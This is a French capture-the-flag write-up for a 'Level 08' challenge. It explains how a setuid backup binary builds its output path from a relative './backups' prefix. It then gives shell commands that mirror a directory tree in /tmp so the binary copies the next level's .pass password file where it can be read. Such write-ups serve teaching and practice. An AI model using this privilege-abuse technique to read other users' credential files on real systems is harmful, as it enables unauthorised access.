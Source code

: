# Level 08

Lorsque nous arrivons dans le level08, nous voyons que le binaire a deux
protections enclanchees.

Le binaire, en 64bits,  comprends deux fonctions que nous devons analyser: main
et log wrapper.

Apres reversing, le binaire a un comportement assez simple: apres une
verification du nombre d'arguments passés(si le nombre d'argument passe est different de deux, un usage est affiche, mais le programme continue)
il ouvre le fichier './backups/.log' et le fichier passé en arguments. Un premier message est ecrit dans le log.
Ensuite, Un nouveau fichier est cree en fusionnant la chaine './backups' avec notre argument. Le programme copie ensuite le contenu du fichier
passé en argument dans le nouveau fichier. Enfin, il enregistre un message dans le fichier .backup.log et quitte.

La vulnerabilité viens ici du fait que le dossier dans lequel le backup est crée commence par './', un
chemin relatif. Cela nous permet donc de controler l'endroit ou le nouveau
fichier sera crée en creant un dossier backup dans un dossier dans lequel nous avons les droits d'ecriture.

Nous connaissons le chemin du fichier que nous voulons obtenir, donc l'exploit se fait simplement avec les commandes suivantes:

-- Nous deplacer dans le dossier dans lequel nous avons droit d'ecriture:

> cd /tmp

-- Creer un dossier backup contenant une reproduction du chemin complet vers
notre fichier cible:
> mkdir -p ./backups/home/users/level09/

-- Executer notre le binaire avec le chemin complet de notre fichier cible:
> /home/users/level08/level08 /home/users/level09/.pass

-- Lire notre flag
> cat ./backups/home/users/level09/.pass
